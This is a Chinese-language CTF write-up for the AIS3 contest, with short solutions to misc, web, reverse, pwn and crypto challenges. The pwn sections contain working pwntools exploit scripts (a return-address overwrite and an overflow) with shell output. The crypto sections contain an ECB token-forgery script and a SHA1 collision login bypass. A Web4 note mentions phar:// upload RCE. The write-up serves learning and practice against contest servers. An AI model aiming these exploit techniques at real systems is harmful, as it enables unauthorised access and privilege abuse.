







 - 這次是第三次參加Ais3，雖然說第三屆參加了感覺有點浪費資源（？）
    - 這次比較想專注於逆向和Pwn，前兩年Pwn, Reverse幾乎都掛蛋，今年解了Pwn1和Pwn2算是有突破， 之前寫的pwntools起手式有派上用場。但其實Pwn1難的點在找Flag；Pwn2則要感謝Toby大大的提示，雖然知道AC那邊可以塞爆，但沒想到密碼可以填過長AC的值!!
    

    - 自我檢討：
        - 這次Web123打太慢了，應該要再更快的QQ；另外Web4有點卡在包zip那，不知為何用cat包的無法work
        - Crypto本來其實都沒啥興趣，但這次多虧神秘外援楊大哥Carry了，非常之感謝
        - 想到再補XDD

以下Write Up
---

### Misc1 
- 送分題。

### Misc2
- 題目一個誤導，線索藏在Header中，可以透過FireFox的Firebug插件看到，拿到圖後用StegoSolve解。


```Ais3{pika}```

### Misc3
- 待研究

### Misc4
- 參考這篇:https://github.com/victor-li/pwnable.kr-write-ups/blob/master/cmd2/cmd2.md


```ais3{I_AM_NOT_FAMALIAR_WITH_IT}```

--- 

### Web1 
```
curl http://quiz.ais3.org:42351/
AIS3{As_Simple_As_Usual}
```

### Web2
- md5 collision
- admin/password：sena/s155964671a
```
AIS3{Hey!Why_can_you_login_without_the_password???}
```

### Web3



```
AIS3{Cute_Snoopy_is_back!!?!?!!?}
```

### Web4
透過Web3的解答可得知上傳點```https://quiz.ais3.org:23545/?p=uploaddddddd```可上傳圖片，而原始碼中禁止了一些用法，但可以透過phar://去解壓縮導致rce。

- 參考這篇：https://0x1337seichi.wordpress.com/2015/03/15/codgate-2015-ctf-quals-owlur-writeup-web-200/

```The flag is AIS3{RCEEEEEEEEE_is_soooooooooo_funnnnnnnnnnnn!?!!?!!!}```

---

### Rev1
OllyDbg打開找關鍵字F2下斷點，之後F8慢慢跟，答案在右下角。

```
AIS3{h0w d1d y0u s3e it}
```

### Rev2

- GG

### Rev3

- GG

### Rev4

- GG

--- 

### Pwn1

```python
from pwn import *
r = remote('quiz.ais3.org', '9561')
buf = p32(0x08048613) #開ida pro f5後跳sh那行
r.sendline(buf)
r.interactive()
```
```
(CTF)ais@ais-VirtualBox:~/Desktop/CTF/Ais3$ python  pwn1.py
[+] Opening connection to quiz.ais3.org on port 9561: Done
[*] Switching to interactive mode
Welcome!
Please input the magic string: $ id
uid=2009(pwn1) gid=2009(pwn1) groups=2009(pwn1)
$ ls /home/pwn1/
flag
magicstring
pwn1
$ cat /home/pwn1/flag
ais3{4nn0y1n9_Wh1t3_SpAcE_CHAR4CTERS}
``` 

### Pwn2
```python
from pwn import *
r = remote('quiz.ais3.org', '56746')

ac = '77777777777777777777' + p64(77777777777777777)
pw = 77777777777777777

print ac
print pw

r.sendline(ac)
r.sendline(str(pw))

r.recvuntil('Your choice :')
r.sendline('1')
r.recvuntil('Magic :')
m = r.recvrepeat(5)
print 'magic =', repr(m)
key = ''
for c in m:
    key += chr(ord(c) ^ int(hex(pw)[-2:], 16))
print key

r.interactive()
```
```
(CTF)ais@ais-VirtualBox:~/Desktop/CTF/Ais3$ python 1.py
[+] Opening connection to quiz.ais3.org on port 56746: Done
77777777777777777777q\x1c�zR\x14
77777777777777777
magic = ' \x10\x18\x02B\r\n;\x04\x02\x05.\x10.\x02\x18\x1c\x01\x1dB.\x1e\x07\x14\x03\x17\x1d\x1e\x06\x0c|{qq\xb1(9\x07\xb8qqq\r\n'
Qais3|{Just_a_simpl3_overflow}
\x00\x00�YHv�\x00\x00|{
```
```ais3{Just_a_simpl3_overflow}```

### Pwn3

- GG

### Pwn4

- GG

---

### Crypto1

```python
import sys

crypto_list = [964600246, 1376627084, 1208859320, 1482862807, 1326295511, 1181531558, 2003814564]

xor = int('AIS3'[::-1].encode('hex'), 16) ^ crypto_list[0]
print 'xor:', xor

flag = ''
for key in crypto_list:
    print hex(key ^ xor)
    flag+= hex(key ^ xor)[2:].zfill(8).decode('hex')[::-1]
print flag
```
```
AIS3{A XOR B XOR A EQUALS B}
```

### Crypto2
> 感謝楊大哥提示



```python
#source code:
pattern = 
'name=' + name + '&role=student' + '&password=' + pwd
#Keypoint:
#0123456789abcdef 0123456789abcdef 0123456789abcdef
#name=aaaaa&role= student&password =aaaaaaaaaaaaaaa
#name=aaaaaaaaaaa admin&role=stude nt&password=aaaa
#=>
#name=aaaaa&role= admin&role=stude nt&password=aaaa

from pwn import *
import base64

# key 1
r = remote('quiz.ais3.org', 3212)
r.recvuntil('1 : Login')
r.sendline('0')
r.recvuntil('What is your name?')
r.sendline('aaaaa')
r.recvuntil('Give me your password:')
r.sendline('aaaaaaaaaaaaaaa')
token = r.recvline()[20:-1]
print 'token 1 =', token
#a = base64.b64decode(repr(token))
#print 'token_de64 =', a
#print 'token_de64_len =', len(base64.b64decode(repr(token)))
print 'key 1 =', base64.b64decode(token)[:16]
key1 = base64.b64decode(token)[:16]
print len(key1)


# key 2
r = remote('quiz.ais3.org', 3212)
r.recvuntil('1 : Login')
r.sendline('0')
r.recvuntil('What is your name?')
r.sendline('aaaaaaaaaaaadmin')
r.recvuntil('Give me your password:')
r.sendline('aaaa')
token = r.recvline()[20:-1]
print 'token 2 =', token
#a = base64.b64decode(token)
#print 'token_de64 =', a
#print 'token_de64_len =', len(base64.b64decode(repr(token)))
print 'key 2 =', base64.b64decode(token)[16:]
key2 = base64.b64decode(token)[16:]
print len(key2)

###
key = key1 + key2
print 'key = ', key
print 'key_b64_en = ', base64.b64encode(key)

r.interactive()
```
```
(CTF)ais@ais-VirtualBox:~/Desktop/CTF/Ais3$ WaCbgzB5casnMjNn9it0XKFla42tcnIFcK3CMGGtQdmAdQi3w6UjO5uy/jNRrNOUVSgJjt0nb8SzdKu/680B5Q==^C
(CTF)ais@ais-VirtualBox:~/Desktop/CTF/Ais3$ nc quiz.ais3.org 3212
Select your choice:
0 : Register
1 : Login
1
Give me your token: WaCbgzB5casnMjNn9it0XKFla42tcnIFcK3CMGGtQdmAdQi3w6UjO5uy/jNRrNOUVSgJjt0nb8SzdKu/680B5Q==
Give me your username: aaaaa
Give me your password: aaaa
Hello aaaaa
Hi admin:
ais3{ABCDEFGHIJKLMNOPQRSTUVWXYZZZZZZZ}
```

### Crypto3 + 4

```python
import sys
import requests
import urllib2
import hashlib

for i in xrange(0, sys.maxint, 1): 
    fuck = open("sha1.pdf").read()[:i] + 'Snoopy_do_not_like_cats_hahahaha' + 'ddaa_is_PHD';
    shit  = open("sha2.pdf").read()[:i] + 'Snoopy_do_not_like_cats_hahahaha' + 'ddaa_is_PHD';
    
    if(hashlib.sha1(fuck).hexdigest()[:4] == 'f00d'): #Flag2
        r = requests.post('https://quiz.ais3.org:32670/', data={'username': fuck , 'password': shit}); #Flag1
        print r.text
        break
```
```Flag1: AIS3{SHA1111l111111_is_broken}</br>```
```Flag2: AIS3{Any_limitation_can_not_stop_me!!!!!l!!!!}```

